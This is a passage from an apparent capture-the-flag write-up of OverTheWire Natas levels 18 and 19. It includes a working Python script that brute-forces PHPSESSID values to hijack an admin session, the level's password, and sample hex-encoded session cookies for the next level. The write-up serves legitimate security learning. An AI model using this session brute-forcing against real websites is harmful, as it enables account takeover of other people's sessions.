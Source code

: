 From the source code, we can tell that the function will return 1 if an admin is logged in. However, the function is disabled - meaning that it will always return 0. It seems that to get the password, we will need to somehow set our session id to be the admin. Note that the `maxid=640`.

Let's check out how does the cookie look like when you try to log in with a random username and password.

```
<RequestsCookieJar[<Cookie PHPSESSID=579 for natas18.natas.labs.overthewire.org/>]> # note that this number could be different for you as it is randomly generated
```

Ok it seems that they are using `PHPSESSID` as the identifier. Let's try to bruteforce this with a python script.

```
import requests

username = "natas18"
password = "xvKIqDjy4OPv7wCRgDlmj0pFsCsDjhdP"

session = requests.Session()

url = "http://{}.natas.labs.overthewire.org/".format(username)

# response = session.post(
#     url, data={"username": "admin", "password": "password"}, auth=(username, password))
# print(session.cookies)

max_id = 640
admin_id = 0

for session_id in range(max_id + 1):
    print("Trying session id {} now".format(session_id))
    response = session.get(
        url, cookies={"PHPSESSID": "{}".format(session_id)}, auth=(username, password))
    content = response.text
    if "You are an admin." in content:
        admin_id = session_id
        print(content)
        break

print("Session id for admin found: {}".format(admin_id)) # 119
```

# Level 19

This challenge is similar to Level 18 but with a twist - the session IDs are no longer sequential and there is no source code available.
Let's check out how does the cookie look like for this challenge.

```
<RequestsCookieJar[<Cookie PHPSESSID=3630392d61646d696e for natas19.natas.labs.overthewire.org/>]>
<RequestsCookieJar[<Cookie PHPSESSID=3633392d61646d696e for natas19.natas.labs.overthewire.org/>]>
<RequestsCookieJar[<Cookie PHPSESSID=3436322d61646d696e for natas19.natas.labs.overthewire.org/>]>
<RequestsCookieJar[<Cookie PHPSESSID=3233342d61646d696e for natas19.natas.labs.overthewire.org/>]>
<RequestsCookieJar[<Cookie PHPSESSID=3136332d61646d696e for natas19.natas.labs.overthewire.org/>]>
```
